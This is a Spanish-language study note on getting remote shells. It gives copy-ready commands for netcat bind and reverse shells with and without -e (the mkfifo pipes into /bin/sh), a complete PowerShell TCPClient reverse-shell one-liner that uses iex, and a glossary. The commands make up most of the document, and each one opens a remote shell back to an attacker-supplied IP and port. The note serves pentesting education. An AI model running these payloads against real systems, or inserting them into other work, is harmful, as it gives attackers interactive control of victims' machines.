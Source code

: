 ### ► SHELLS CON NETCAT, MKFIFO Y POWERSHELL – APUNTE COMPLETO Y OPERATIVO

---

## ● 1. NETCAT CON `-e` (VERSIÓN VULNERABLE)

Algunas versiones de `netcat` permiten ejecutar una shell al recibir/conectar mediante la opción `-e`. Funciona en:

* `netcat-traditional` (Kali).
* `nc.exe` (Windows, ruta en Kali: `/usr/share/windows-resources/binaries`).

### ▪ Bind Shell:

**Víctima (escucha):**

```bash
nc -lvnp 4444 -e /bin/bash
```

**Atacante (conecta):**

```bash
nc <IP_VÍCTIMA> 4444
```

### ▪ Reverse Shell:

**Víctima (conecta):**

```bash
nc <IP_ATACANTE> 4444 -e /bin/bash
```

**Atacante (escucha):**

```bash
nc -lvnp 4444
```

**Limitación:** en Linux modernos, `-e` está deshabilitado por razones de seguridad.

---

## ● 2. NETCAT SIN `-e`: USO DE `mkfifo`

Cuando `-e` no está disponible, se puede simular una shell usando una **FIFO (named pipe)**.

### ▪ Bind Shell sin `-e`:

**Víctima (escucha):**

```bash
mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

**Atacante (conecta):**

```bash
nc <IP_VÍCTIMA> 4444
```

---

### ▪ Reverse Shell sin `-e`:

**Víctima (conecta):**

```bash
mkfifo /tmp/f; nc <IP_ATACANTE> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

**Atacante (escucha):**

```bash
nc -lvnp 4444
```

---

### ▪ Funcionamiento Interno de `mkfifo + nc`:

1. `mkfifo /tmp/f` crea una tubería nombrada (archivo especial).
2. `nc` escucha o conecta, con stdin redirigido desde la FIFO.
3. Lo que se recibe se inyecta a `/bin/sh`.
4. stdout y stderr de la shell se redirigen a la FIFO, cerrando el bucle.
5. Al terminar, se elimina `/tmp/f`.

---

## ● 3. REVERSE SHELL EN WINDOWS CON POWERSHELL

En Windows Server modernos, el entorno más común para shell inversa es PowerShell.

### ▪ One-liner PowerShell Reverse Shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Sustituir `<IP>` y `<PORT>` con dirección y puerto del atacante.
* Ejecutar desde `cmd.exe`, `powershell.exe`, o webshell.
* Entrega shell remota interactiva via TCP sin requerir `nc.exe`.

---

## ● 4. OTRAS OPCIONES DE SHELLS

### ▪ Repositorio recomendado:

**[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)**

Contiene:

* One-liners de shell inversa para múltiples lenguajes (Python, Bash, Perl, Ruby, PHP, PowerShell, etc.).
* Payloads para webshells, bypass de AV, WAF, firewalls.
* Técnicas para explotación, elevación de privilegios y post-explotación.

---

## ● GLOSARIO

| Término                       | Descripción                                                                                                   |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------- |
| **netcat (`nc`)**             | Herramienta CLI para enviar/recibir datos sobre TCP/UDP. Soporta redirección de stdin/stdout.                 |
| **`-lvnp`**                   | `-l`: escucha; `-v`: verbose; `-n`: IPs numéricas; `-p`: puerto.                                              |
| **`-e`**                      | Ejecuta un binario al conectarse. Funciona solo en versiones vulnerables.                                     |
| **FIFO (named pipe)**         | Archivo especial que actúa como un canal de comunicación entre procesos. Se crea con `mkfifo`.                |
| **`mkfifo`**                  | Comando Unix para crear una named pipe. Utilizado para simular una shell si `-e` está ausente.                |
| **`2>&1`**                    | Redirige stderr (2) hacia stdout (1), útil para capturar errores en la misma salida.                          |
| **`/tmp/f`**                  | Tubería temporal en el sistema de archivos Linux. Punto de entrada/salida para la shell.                      |
| **PowerShell reverse shell**  | Payload en PowerShell que establece conexión TCP de vuelta al atacante. Permite ejecución remota de comandos. |
| **`TCPClient` (PS)**          | Objeto .NET usado en PowerShell para iniciar conexión TCP.                                                    |
| **`GetStream()`**             | Método que habilita la lectura/escritura del canal TCP.                                                       |
| **`iex` (Invoke-Expression)** | Ejecuta texto como comando en PowerShell, equivalente a `eval`.                                               |
| **PayloadsAllTheThings**      | Repositorio con payloads listos para usar en múltiples entornos y lenguajes. Muy útil para pentesters.        |

---
